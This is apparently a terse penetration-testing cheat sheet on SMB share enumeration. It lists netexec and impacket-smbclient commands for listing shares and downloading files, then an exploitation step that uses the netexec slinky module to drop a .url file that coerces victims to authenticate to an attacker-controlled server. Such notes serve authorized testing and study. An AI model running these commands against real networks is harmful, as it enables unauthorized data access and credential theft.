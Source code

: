 # SMB shares Enumeration

## Commands:

 - netexec smb IP -u USER -p PASSWORD --shares

 - impacket-smbclient -k DOMAIN.LOCAL/USERNAME:PASSWORD@DC.DOMAIN.LOCAL (Authenticate with kerberos)

## IN IMPACKET-SMBCLIENT SHELL

 - shares (Check shares)

 - use SHARE_NAME (Go to a share you have access to)

 - get FILE (Download interesting files)

# TO EXPLOIT IT, GO TO THE EXPLOIT SECTION AFTER THIS

## Exploitation synopsis:

 - netexec smb IP -u USER -p PASSWORD -M slinky -o NAME=FILENAME SERVER=IP

 - drop .url file

### Go to Coerce SMB 

